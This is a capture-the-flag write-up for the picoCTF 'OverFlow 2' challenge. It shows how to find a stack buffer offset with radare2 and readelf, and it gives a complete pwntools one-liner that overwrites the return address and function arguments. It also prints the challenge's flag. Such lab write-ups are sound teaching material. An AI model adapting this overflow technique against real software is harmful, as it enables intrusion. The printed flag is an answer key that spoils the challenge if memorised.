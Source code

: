 # OverFlow 2

## Problem

> Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_2_47d6bbdfb1ccd0d65a76e6cbe0935b0f on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Find the offset/padding
    1. You can use the method described in [rop64](../Binary\ Exploitation/rop64/README.md) with the `cyclic` and `cyclic_find` or you can use the following
    2. Open vuln in [radare2](https://rada.re/r/) with `r2 ./vuln`
    3. Run `aaaa`
    4. Run `pdf @ sym.vuln` to get `var int local_b8h @ ebp-0xb8`
    5. The `0xb8` is the buffer location so 4 more bytes are needed to get past the "saved ebp register"
    6. So the offset is `0xb8+4`
2. Run `readelf -s vuln` to get the address of `flag`: `0x080485e6`
3. We can use `p32` from pwntools to convert the hex addresses to little endian. 
4. We need to pad out the second return address with `'a'*4` so that goes next in the payload
5. Now we can add the two function arguments in little endian using `p32`
6. Payload complete: `python2 -c "from pwn import *; print 'a'*(0xb8+4)+p32(0x080485e6)+'a'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln`

### Flag

`picoCTF{arg5_and_r3turn5ce5cf61a}`